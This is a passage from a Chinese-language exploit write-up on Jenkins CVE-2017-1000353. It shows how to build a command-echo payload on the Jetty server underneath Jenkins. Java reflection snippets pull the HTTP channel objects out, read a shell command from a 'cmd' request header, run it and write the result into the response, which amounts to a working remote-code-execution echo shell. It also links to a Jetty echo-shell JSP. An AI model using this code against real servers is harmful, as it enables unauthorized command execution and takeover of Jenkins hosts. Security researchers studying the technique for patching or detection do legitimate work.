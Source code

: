 针对 jenkins 的 http 请求和 servlet 的处理是基于 jetty 服务器实现的，在jetty服务器的回显马   
jetty789Echo.jsp  
(https://github.com/feihong-cs/Java-Rce-Echo/blob/master/Jetty/code/jetty789Echo.jsp)   
中给出了 jetty 的两种回显方式。由于 CVE-2017-1000353 漏洞在利用过程中创建了 channel 的特性，并将漏洞的 download 和 upload 类型的 http 请求传入了进去。这时我们就可以通过反射获取这个 channel 中的http 属性，并通过传入 http 消息头中的某些字段进行读取传入的命令内容将其执行，并将执行结果在写入到响应包中，这样就完成了整个回显过程。  
  
反射获取   
channel  
 对象中的   
underlyingOutput  
 属性。  
```
Field underlyingOutputField = channel.getClass().getDeclaredField("underlyingOutput");
underlyingOutputField.setAccessible(true);
Object underlyingOutput = underlyingOutputField.get(channel);
Object httpConnection;
```  
  
在   
underlyingOutput  
 属性的   
_channel  
 和   
this$0  
 的属性中保存了 http 请求响应的相关信息，通过反射获取   
_channel  
 和   
this$0  
 的属性并赋值给   
httpConnection  
 对象。  
```
try{
  Field _channelField = underlyingOutput.getClass().getDeclaredField("_channel");
  _channelField.setAccessible(true);
  httpConnection = _channelField.get(underlyingOutput);
    }catch (Exception e){
  Field connectionField = underlyingOutput.getClass().getDeclaredField("this$0");
  connectionField.setAccessible(true);
  httpConnection = connectionField.get(underlyingOutput);
}
```  
  
获取到 http 信息后，再通过反射获取请求头中的命令执行 cmd 字段的值，并将其执行，写入到响应中。  
```
Object request = httpConnection.getClass().getMethod("getRequest").invoke(httpConnection);
Object response = httpConnection.getClass().getMethod("getResponse").invoke(httpConnection);
String cmd = (String) request.getClass().getMethod("getHeader", String.class).invoke(request, "cmd");
OutputStream outputStream = (OutputStream)response.getClass().getMethod("getOutputStream").invoke(response);
String result = "\n"+exec(cmd);
outputStream.write(result.getBytes());
outputStream.flush();
```  
  